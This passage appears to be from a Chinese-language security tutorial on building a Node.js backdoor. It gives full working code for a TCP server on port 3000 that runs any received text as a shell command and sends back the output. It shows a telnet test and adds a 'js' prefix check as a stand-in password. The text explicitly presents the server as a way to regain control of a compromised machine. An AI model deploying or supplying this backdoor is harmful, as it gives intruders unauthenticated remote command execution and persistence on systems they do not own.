 监听3000端口，并在终端中显示OK。

完整代码如下：

```
var net = require('net');
var exec = require('child_process').exec;
var server= net.createServer(function(conn){
    conn.setEncoding('utf8');
    conn.write('\n');
    conn.on('data',function(data){
        data=data.replace('\r\n','');
        exec(data,function(error,stdout){
            if(error !== null){
                conn.write(error + '\n');
                return false;       
            }
            conn.write('########################start\n\n' + stdout + '\n########################end\n\n');
        });
    });
}); 

server.listen(3000,function(){
    console.log('OK');
});

```

现在让我们来测试一下：

![p2](http://drops.javaweb.org/uploads/images/c918cac536243e55ffe66be74f9039620dba7fe8.jpg)

打开另一个终端，输入`telnet 127.0.0.1 3000`

![p3](http://drops.javaweb.org/uploads/images/6537eb63363989e01016c416c4b3b860ab25ffb3.jpg)

现在我们输入几条命令试下：

![p4](http://drops.javaweb.org/uploads/images/b15f362f4d00b5ec3229c5711481c5e508fd3e97.jpg)

![p5](http://drops.javaweb.org/uploads/images/9b2d032ce09e4f4aaaea892f73839f7ff9f40ef3.jpg)

OK了。现在只需要使用添加用户即可再次控制机器。

而这里有个缺陷，就是没有密码验证，我特意查了net库里的函数，但是没有找到密码验证，于是我想到了另一种方法来代替密码验证。代码如下：

```
if(data.substring(0,2) == 'js'){
    data = data.substring(2);
}else{
    return false;
}

```
